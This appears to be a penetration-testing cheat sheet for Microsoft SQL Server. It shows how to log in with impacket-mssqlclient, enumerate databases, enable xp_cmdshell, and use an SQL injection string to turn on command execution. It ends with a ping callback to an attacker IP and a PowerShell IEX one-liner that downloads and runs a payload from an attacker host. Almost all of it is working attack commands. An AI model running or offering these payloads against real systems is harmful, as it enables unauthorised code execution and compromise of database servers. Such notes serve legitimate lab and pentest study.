 ```bash
impacket-mssqlclient $USER:$PASSWORD@$iP -windows-auth
```

### Commands

```bash
SELECT @@version;
```

```bash
SELECT name FROM sys.databases;
```

```bash
SELECT name FROM sys.databases;
```

### Enabling xp_cmdshell from MSSQLCLIENT

**Configuration Commands:**

```bash
EXECUTE sp_configure 'show advanced options', 1;
```

```bash
RECONFIGURE;
```

```bash
EXECUTE sp_configure 'xp_cmdshell', 1;
```

```bash
RECONFIGURE;
```

```bash
EXECUTE xp_cmdshell 'whoami';
```

### SQLI to enable xp_cmdshell

```bash
1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE--
```

Ping from target machine to teset's machine $IP to see if xp_cmdshell was enabled successfully, check Wireshark or TCPDUMP for ICMP request.

```bash
'EXEC+xp_cmdshell+'ping+192.168.45.165';+--+
```

To download and execute payloads

```bash
'EXEC xp_cmdshell "powershell IEX(New-Object Net.webclient).downloadString('http://$IP/$PAYLOAD')";--
```
